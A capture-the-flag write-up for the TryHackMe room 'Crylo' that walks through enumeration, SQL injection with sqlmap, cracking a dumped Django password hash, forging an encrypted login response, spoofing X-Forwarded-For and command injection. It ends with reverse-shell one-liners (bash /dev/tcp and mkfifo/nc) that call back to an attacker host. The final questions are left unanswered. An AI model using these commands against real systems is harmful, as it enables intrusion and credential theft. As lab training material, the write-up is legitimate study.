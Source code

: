 # Crylo

This is a writeup for the room [Crylo](https://tryhackme.com/room/crylo4a) on TryHackMe.

> Learn about the CryptoJS library and JavaScript-based client-side encryption and decryption.

<Image src="https://tryhackme-images.s3.amazonaws.com/room-icons/af0e7c2109847033d31d273498657526.png" width="128" />

## Task 1 - Enumeration

> How many ports are open?

Start the machine and scan the ports with nmap.

```bash
nmap -sS -p- -v [IP]
```

<Image src="/images/writeups/thm/2023/crylo/nmap.png" />

> What is the 403/forbidden web page?

Open the web page in the browser and check the source code.

Other pages return a 404 error.

<Image src="/images/writeups/thm/2023/crylo/homepage.png" />

Nothing seems to be interesting, so we can try to enumerate the website with gobuster.

It is important to set the `-s` flag to search for at least the 403 status code.

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html,css,js -q -s "200,403" -u [URL]
```

<Image src="/images/writeups/thm/2023/crylo/gobuster.png" />

## Task 2 - Injection

> What is the name of the first username?

It is a common name for the default user of a web application.

> What is the password for the above user?

We can try to login with common credentials, but nothing tried works.

<Image src="/images/writeups/thm/2023/crylo/login.png" />

Looking to the response we can see that the final text cannot be parsed directly.

However, the client understands it perfectly and shows the result.

It is possible to look to the code to find how it works.

<Image src="/images/writeups/thm/2023/crylo/code-login.png" />

The client decrypts the response using the CryptoJS library.

The response is encrypted using the AES algorithm with the CBC mode and a hardcode string as key and IV.

Using Cyberchef it is possible to convert the response and see its content.

<Image src="/images/writeups/thm/2023/crylo/decrypt-response.png" />

Now that the request is known, we can try sqlmap to see if it is vulnerable to SQL injection.

The easy way to manage the request is to save it in a file and use the `-r` flag.

Using the standard risk level is not enough, add `--risk=3 --level=3` to increase it and find a vulnerability.

```bash
# Enumerate databases
sqlmap -r request --risk=3 --level=3 --dbs

# Enumerate tables in food database
sqlmap -r request --risk=3 --level=3 --tables -D food

# Dump auth data to get the hash of the admin password
sqlmap -r request --risk=3 --level=3 --dump -T auth_user -D food
sqlmap -r request --risk=3 --level=3 --dump -T auth_user -D food --data "username=admin" -C password
```

Follow the default answer for all questions except:

```
you provided a HTTP Cookie header value. The target URL provided its own cookies within the HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] n
```

We can obtain a hash of the admin password that be cracked with a tool like hashcat.

Analyzing the hash with hashid we can find the hash type is Django (PBKDF2-SHA256).

```bash
# Save hash in a file
echo "pbkdf2_sha256$260000$HxnWVrw647R53GeEUksjW5$SggM3ZAh86qRZtnn0VbWOSmHWhckfVvIsMG+jTZstpE=" > hash.txt

# Get hash type for hashcat
hashid -m hash.txt

# Crack the hash with mode 10000 (Django (PBKDF2-SHA256))
hashcat -m 10000 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

<Image src="/images/writeups/thm/2023/crylo/hashcat.png" />

## Task 3 - Encryption

> Which library is used for encryption and decryption?

Look in `/static/js/validation.js` to find the answer.

The library can be easily recognized by the capitalized name of the variable.

<Image src="/images/writeups/thm/2023/crylo/encryption.png" />

> Which JSON parameter was used to validate the pin?

Look in `/static/js/validation.js` to find the answer.

There is a specific if statement for the pin parameter.

<Image src="/images/writeups/thm/2023/crylo/pin-set.png" />

> Which encryption method is used?

Look in `/static/js/validation.js` to find the answer.

At the beginning of the file there is a comment that says that the encryption method is AES.

## Task 4 - Forbidden Bypass

> What extra header can be used to bypass the page?

Firstly, bypass the login changing the value of `pin_set` to `false`.

```
{"pin_set": "true", "email": "admin@admin.com", "success": "true"}
iL6SVLGiiyY47lh6kX353MqD9I+mcSncHWhuJl6Dg7umFTYotHmMKiPaluJ8J35LebkAv3FSyusGIO8rxwJztzwHX9Ot64ltTlbzi/spfQ4=

{"pin_set": "false", "email": "admin@admin.com", "success": "true"}
HS0kn8CQhTz7NwgLMw9tP1mWXHssgMd2MRJ9EeChrTiPlSg9HGgxyshgHbMYjhFnVbpEi5lm1bRMbgbdebHsfVsN+90GzIuDMX+SBBI9wdY=
```

> What extra header can be used to bypass the page?

Use the `X-Forwarded-For` header to bypass the IP check.

It can be easily added using Burp Suite.

Be careful to always add the header before sending any request.

```
X-Forwarded-For: 127.0.0.1
```

Once the header is added, you will see a simple input text and a submit button.

Send a request and move it to the repeater to simplify the work.

We can check for remote code execution using the following payload.

```bash
22 && sleep 10
```

We can see that the command is executed, so we can try to get a reverse shell.

```bash
ifconfig
nc -nlvp 1337
22 && bash -i >& /dev/tcp/[IP]/1337 0>&1
22 && rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.172.114 1337 >/tmp/f
```

## Task 5 - Exploitation

> What is the name of the vulnerability used to gain system access?

The vulnerability that we exploited is based on the debug form.

We can send OS commands to be executed on the target server.

[https://portswigger.net/kb/issues/00100100_os-command-injection](https://portswigger.net/kb/issues/00100100_os-command-injection)

> What is the current system’s username?

Once you obtain a reverse shell is enough to run `whoami` to get the answer.

```bash
whoami
```

> What is the user flag?

Go to the home directory of the user to find the flag.

```bash
cd
cat user.txt
```

> Which user is part of the sudo group?

It is enough to check the sudo group to find the answer.

```bash
getent group sudo
```

> What is the password for the above user?

> What is the root flag?
